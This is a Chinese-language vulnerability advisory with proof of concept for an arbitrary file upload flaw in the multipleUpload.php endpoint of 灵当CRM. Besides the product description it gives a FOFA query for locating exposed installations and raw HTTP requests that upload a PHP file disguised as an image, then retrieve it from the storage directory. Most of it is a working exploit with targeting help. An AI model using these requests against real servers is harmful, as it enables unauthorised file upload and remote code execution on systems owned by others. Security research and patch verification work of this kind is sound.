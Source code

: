 **漏洞名称**

灵当CRM系统multipleUpload.php任意文件上传漏洞

**漏洞影响**

灵当CRM，版本信息不详

漏洞描述

灵当CRM是上海灵当信息科技有限公司开发的一款CRM软件，适用于以销售和服务业务为主的中小型企业。产品功能集销售管理、机会管理、渠道管理、售后服务管理、热线管理、合同管理、收付款管理、库存管理、人事管理、绩效与奖金管理、报表中心、呼叫中心管理于一体，帮助中小型企业实现销售、服务、财务一体化管理。灵当CRM系统接口multipleUpload.php文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全，请及时修复。

**FOFA搜索语句**

```
body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")
```

漏洞复现

1，上传文件



```yaml
POST /crm/modules/Home/multipleUpload.php?myatt_id=1&myatt_moduel=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Connection: close
Content-Length: 207
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqpvtioxyquthilrc
Accept-Encoding: gzip

------WebKitFormBoundaryqpvtioxyquthilrc
Content-Disposition: form-data; name="file"; filename="kapke.php"
Content-Type: image/png

123456
------WebKitFormBoundaryqpvtioxyquthilrc--
```

2,查看回显文件

部分回显路径需要从第一步的响应数据包中获取，然后拼接前缀/crm/和文件名



```
GET /crm/storage/2024/September/week4/kapke.php HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Accept-Encoding: gzip
```